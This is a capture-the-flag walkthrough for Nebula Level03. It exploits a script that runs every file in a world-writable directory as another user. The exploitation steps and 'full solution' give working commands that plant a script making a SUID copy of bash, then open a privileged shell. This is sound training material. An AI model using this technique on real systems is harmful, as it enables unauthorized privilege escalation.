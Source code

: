 ## 🧪 Nebula - Level03

> **Category:** Privilege Escalation (World-Writable Directory, Script Injection)  
> **Goal:** Execute `getflag` as user `flag03`  
> **System:** GNU/Linux – Nebula VM  
> **Required skills:** Understanding of permissions, shell scripting

---

### 🔍 Description

In this level, you have access to a world-writable directory (`writable.d`) inside the home of `flag03`, and a script (`writable.sh`) that executes every file inside that directory as `flag03`. The goal is to exploit this setup to gain `flag03` privileges and obtain the flag.

---

### 🔎 Analyzing the setup

Listing the contents of `/home/flag03`:

```
drwxrwxrwx 1 flag03 flag03      40 ... writable.d/
-rwxr-xr-x 1 flag03 flag03      98 ... writable.sh*
```

The script `writable.sh`:

```sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

This script runs every file in `writable.d` with `bash -x` as `flag03`, then deletes it.

---

### 🚀 Exploitation

1. **Create a malicious script** in `writable.d`:

   ```sh
   echo -e '#!/bin/bash\ncp /bin/bash /home/flag03/bash\nchmod u+s /home/flag03/bash' > /home/flag03/writable.d/scr.sh
   chmod +x /home/flag03/writable.d/scr.sh
   ```

2. **Run the vulnerable script**:

   ```sh
   ./writable.sh
   ```

   This will copy `/bin/bash` to `/home/flag03/bash` and set the SUID bit, making it executable as `flag03`.

3. **Get a shell as flag03**:

   ```sh
   ./bash -p
   ```

   Now you have a shell as `flag03`.

4. **Retrieve the flag**:

   ```sh
   getflag
   ```

   Output:

   ```
   You have successfully executed getflag on a target account
   ```

---

### ✅ Full solution

```sh
echo -e '#!/bin/bash\ncp /bin/bash /home/flag03/bash\nchmod u+s /home/flag03/bash' > /home/flag03/writable.d/scr.sh
chmod +x /home/flag03/writable.d/scr.sh
./writable.sh
./bash -p
getflag
```

---

### 🔐 Security lesson

This level demonstrates the danger of executing scripts from a world-writable directory, especially as a privileged user. Any user with write access can inject malicious code and escalate privileges.

---
